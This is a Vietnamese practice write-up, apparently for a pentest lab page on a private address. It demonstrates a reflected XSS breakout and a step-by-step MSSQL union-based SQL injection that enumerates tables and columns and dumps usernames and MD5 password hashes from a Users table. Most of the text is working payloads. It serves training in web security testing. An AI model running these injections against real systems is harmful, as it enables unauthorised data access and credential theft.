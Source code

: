 _10. Th3 2020_

# VN*

### Introduction

URL: [Trang thử nghiệm][main]

### Documents

Tự động tìm lỗi: [Sử dụng BurpSuite Crawl][burpcrawl]

Xử lý bằng tay: [Hướng dẫn từ BurpSuite][burpunion]

Giải đáp: [Đáp án][answer]
	
### Cross-site scripting (XSS)

Dấu hiệu nhận biết sử dụng trường `Số`:
	
	1">
	
![XSSstep1][imgxss1]

Dễ nhận ra với payload trên, phía bên phải form xuất hiện dấu `">` bên ngoài input. Đó là dấu hiệu điển hình của 1 lỗi XSS trong form input

### Khai thác XSS

Thử lại với 1 payload chứa hàm onclick (khi bấm vào sẽ thực thi), ta có payload mới

	1" onclick="alert('test XSS')

![XSSstep2][imgxss2]

Bấm vào input lần nữa, click event được ghi nhận & hàm alert trong onclick được thực thi.

Bấm F12 để mở Chrome Dev Tools.

- Ban đầu:

	`<input type="text" name="intso" value="1">`

- Khi nhập:

	`<input type="text" name="intso" value="1">">`
	
- Kết quả:

	`<input type="text" name="intso" value="1">">`


### SQL Injection

Nhận biết loại SQL: MSSQL, chi tiết để sau

Dấu hiệu nhận biết sử dụng trường `Số`:

	1' order by 1--

Kết quả trả về giống như khi sử dụng `1`.  Đó là dấu hiệu điển hình của 1 lỗi SQL Injection.

### Khai thác SQLi

- Bước 1: Tìm số cột của table hiện tại

	-1' order by n--

với n được thử lần lượt từ 1 lên đến khi lỗi. n sẽ là giá trị phù hợp trước khi lỗi.

Lỗi được tính là khi kết quả trả về `ADODB.Recordset error 'xxxxxxxx'`

Kết quả:
	
	10

![SQListep1][imgsqlistep1]

- Bước 2: Ta đã biết được số cột, giờ ta sẽ tìm cột chứa giá trị chuỗi ký tự.

Lần lượt thử:

	-1' UNION SELECT 'a',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
	
Nếu lỗi được trả về, ta tiếp tục thay 'a' vào các giá trị tiếp theo cho đến hết

	-1' UNION SELECT NULL,'a',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
	-1' UNION SELECT NULL,NULL,'a',NULL,NULL,NULL,NULL,NULL,NULL,NULL--
	...
	
	-1' UNION SELECT NULL,NULL,'a',NULL,'a',NULL,NULL,NULL,NULL,NULL--
	
Kết quả: 2 vị trí

![SQListep2][imgsqlistep2]

Từ 2 vị trí này, tạo payload để lấy thông tin server

	-1' UNION SELECT NULL,NULL,@@version,NULL,@@SERVERNAME,NULL,NULL,NULL,NULL,NULL--
	
	-1' UNION SELECT NULL,NULL,user_name(),NULL,db_name(),NULL,NULL,NULL,NULL,NULL--

Từ 2 vị trí này, tạo payload để lấy được tên bảng

	-1' UNION SELECT NULL,NULL,table_name,NULL,NULL,NULL,NULL,NULL,NULL,NULL from (select top 1000 table_name from information_schema.tables order by 1) as x order by 1 desc--

Tuy nhiên trang đã giới hạn số mục được hiện trên màn hình, ta có thể thấy có 125 văn bản, trong khi hiện chỉ có 20 văn bản. Nút phân trang cũng không sử dụng được, vì chúng ta đang sử dụng 1 payload "không chính thống"

![SQListep3][imgsqlistep3]

Để giải quyết vấn đề này, ta cần thực thi bằng lệnh SELECT từ bản ghi thứ 20 trở đi

	-1' UNION SELECT NULL,NULL,table_name,NULL,NULL,NULL,NULL,NULL,NULL,NULL from (select ROW_NUMBER() OVER (ORDER BY table_name ASC) AS rowNum, table_name from information_schema.tables) as x where rowNum >= 20 order by 1 desc--

Thay rowNum để hiện hết tên các bảng

Tương tự đối với tên cột

	-1' UNION SELECT NULL,NULL,column_name,NULL,NULL,NULL,NULL,NULL,NULL,NULL from (select top 1000 column_name from information_schema.columns where table_name ='' order by 1) as x order by 1 desc--

Thay tên bảng vào '' để hiện tên các cột

![SQListep4][imgsqlistep4]

Thử lấy kết quả của bảng Users

	-1' UNION SELECT NULL,NULL,Username,NULL,Password,NULL,NULL,NULL,NULL,NULL from Users--
	
![SQListep5][imgsqlistep5]

Password đã bị mã hóa MD5.

Hoàn thành!

  [main]: https://192.168.3.11/home/?netoffice
  [burpcrawl]: https://portswigger.net/support/using-burp-to-detect-sql-injection-flaws
  [burpunion]: https://portswigger.net/web-security/sql-injection/union-attacks
  [answer]: http://securityidiots.com/Web-Pentest/SQL-Injection/MSSQL/MSSQL-Union-Based-Injection.html
  [imgxss1]: assets/images/ex/1-xss.PNG
  [imgxss2]: assets/images/ex/2-xss.PNG
  [imgsqlistep1]: assets/images/ex/1-sqli.PNG
  [imgsqlistep2]: assets/images/ex/2-sqli.PNG
  [imgsqlistep3]: assets/images/ex/3-sqli.PNG
  [imgsqlistep4]: assets/images/ex/4-sqli.PNG
  [imgsqlistep5]: assets/images/ex/5-sqli.PNG
